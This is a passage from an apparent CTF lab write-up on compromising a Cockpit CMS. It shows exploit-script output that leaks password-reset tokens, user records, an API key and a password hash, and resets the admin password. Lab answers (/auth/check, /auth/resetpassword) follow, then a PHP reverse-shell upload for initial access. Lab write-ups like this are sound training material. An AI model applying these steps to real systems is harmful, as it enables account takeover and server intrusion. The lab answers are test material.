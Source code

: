 ```py
         [*] _modified : 1621655201
         [*] _id : 60a87ea165343539ee000300
         [*] _reset_token : rp-4c35308ff3bd8e12a91fd7ed16b2304764ba486b8b505
         [*] md5email : a11eea8bf873a483db461bb169beccec
--------------------------------------------
[+] Do you want to reset the passowrd for admin? (Y/n): Y
[-] Attempting to reset admin's password:
[+] Password Updated Succesfully!
[+] The New credentials for admin is: 
         Username : admin 
         Password : REDACTED

[-] Get user details For : skidy
[+] Finding Password reset tokens
         Tokens Found : ['rp-4d9268d18f1687dbcf79b07d07f2b68b64ba49a562ae7']
[+] Obtaining user information 
-----------------Details--------------------
         [*] user : skidy
         [*] email : skidy@tryhackme.fakemail
         [*] active : True
         [*] group : admin
         [*] i18n : en
         [*] api_key : account-21ca3cfc400e3e565cfcb0e3f6b96d
         [*] password : $2y$10$uiZPeUQNErlnYxbI5PsnLurWgvhOCW2LbPovpL05XTWY.jCUave6S
         [*] name : Skidy
         [*] _modified : 1621719311
         [*] _created : 1621719311
         [*] _id : 60a9790f393037a2e400006a
         [*] _reset_token : rp-4d9268d18f1687dbcf79b07d07f2b68b64ba49a562ae7
         [*] md5email : 5dfac21f8549f298b8ee60e4b90c0e66
--------------------------------------------

```

- [x] What is the path that allow user enumeration? {==**/auth/check**==}
- [x] How many users can you identify when you reproduce the user enumeration attack? {==**4**==}
- [x] What is the path that allows you to change user account passwords? {==**/auth/resetpassword**==}
- [x] Compromise the Content Management System (CMS). What is Skidy's email. {==**skidy@tryhackme.fakemail**==}

Next, I logged in through Admin credentials and explored the `'finder'` section of the website.

<img id="image3" />

I found a file named `webflag.php`. That gave me the answer for the first flag.

- [x] What is the web flag? {==**thm{REDACTED}**==}

## <b>Initial Access</b>

Knowing that Cockpit allows uploading source codes, I uploaded a PHP reverse shell (reverse-shell.php) to gain initial access to the server.
